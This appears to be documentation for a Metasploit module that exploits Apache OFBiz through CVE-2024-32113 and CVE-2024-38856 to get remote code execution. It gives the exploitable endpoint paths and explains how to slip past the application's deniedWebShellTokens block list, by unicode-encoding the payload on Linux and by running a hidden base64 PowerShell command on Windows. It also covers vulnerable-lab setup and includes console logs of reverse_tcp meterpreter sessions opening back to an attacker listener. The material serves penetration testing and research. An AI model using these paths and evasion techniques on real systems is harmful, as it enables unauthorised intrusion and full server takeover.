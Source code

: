 ## Vulnerable Application
Apache OFBiz versions prior to 18.12.13 are vulnerable to a path traversal vulnerability. The vulnerable
endpoint `/webtools/control/forgotPassword` allows an attacker to access the `ProgramExport` endpoint which in
turn allows for remote code execution in the context of the user running the application.

It was then discovered that the use of the path traversal vulnerability is not required in order to access
the vulnerable endpoint ProgramExport. CVE-2024-38856 was given for this Incorrect Authorization vulnerability
and was patched in 18.12.15.

This module was originally written the exploit CVE-2024-32113, but upon the discovery of CVE-2024-38856 the
module updated to not exploit the path traversal vulnerability allowing for exploitation on 18.12.14 as well.

CVE-2024-32113, Path Traversal, patched in 18.12.13:
`/webtools/control/forgotPassword;../ProgramExport`

CVE-2024-38856, Incorrect Authorization, patched in 18.12.14:
`/webtools/control/forgotPassword/ProgramExport`

### Description
The module can exploit Apache OFBiz running on both Windows and Linux. OFBiz has list of `deniedWebShellTokens`
which includes strings like `curl` and `chmod` which attempts to prevent ProgramExport from being exploited. The list
can be bypassed if you encode your payload in unicode characters, which is what is done for payloads being sent to
Apache OFBiz running on Linux. Trying to do the same on Windows results in the application throwing errors complaining
about multiple characters.
```
      <p>The Following Errors Occurred:</p>
        <p>org.codehaus.groovy.control.MultipleCompilationErrorsException: startup failed:
Script1.groovy: 1: unexpected char: &#39;:&#39; @ line 1, column 49.
```

Which is why the following: `'BadChars' => "\x3a"` has been added. Adding BadChars changes the payload
to be Base64 encoded and gets powershell to decode and run it: `powershell -w hidden -nop -e <Base64 encoded payload>`

### Setup

#### Docker

1. Run the following docker command to spin up a vulnerable target:
`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 vulhub/ofbiz:18.12.09`

#### Windows 10 (Build 19045)

1. Download the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Download a vulnerable version of Apache OFBiz from https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.12.zip
1. Create the directory: `C:\ofbiz`.
1. Unzip the contents of `apache-ofbiz-18.12.12.zip` into `C:\ofbiz`.
1. Run `cd C:\ofbiz`.
1. Run `init-gradle-wrapper` to initialize the Gradle wrapper.
1. Run `.\gradlew cleanAll loadAll` to clean the system and load the complete OFBiz data.
1. Once the above completes run `.\gradlew ofbiz` to start the application
1. Navigate to `https://localhost:8443/webtools`


## Verification Steps

1. Start msfconsole
1. Do: `use apache_ofbiz_forgot_password_directory_traversal`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a session in the context of the user running Apache OFBiz.

## Scenarios

### Apache OFBiz 18.12.12 running on Windows 10 (Build 19045)
```
msf6 > use multi/http/apache_ofbiz_forgot_password_directory_traversal
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Linux Command
    1   Windows Command
    
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > set target 1
target => 1
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run rhosts=172.16.199.132 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested remote code execution successfully
[*] Attempting to exploit...
[*] Sending stage (201798 bytes) to 172.16.199.132
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.132:50788) at 2024-06-14 16:46:34 -0700

meterpreter > getuid
Server username: DESKTOP-N3ORU31\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-N3ORU31
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
```

### Apache OFBiz 18.12.12 running in Docker on MacOS 14.5
```
msf6 exploit(multi/http/apache_ofbiz_forgot_password_directory_traversal) > run target=0 payload=cmd/linux/http/x64/meterpreter/reverse_tcp rhosts=172.16.199.1 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Tested command injection successfully
[*] Attempting to exploit...
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.1:54454) at 2024-06-07 13:02:01 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.26-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
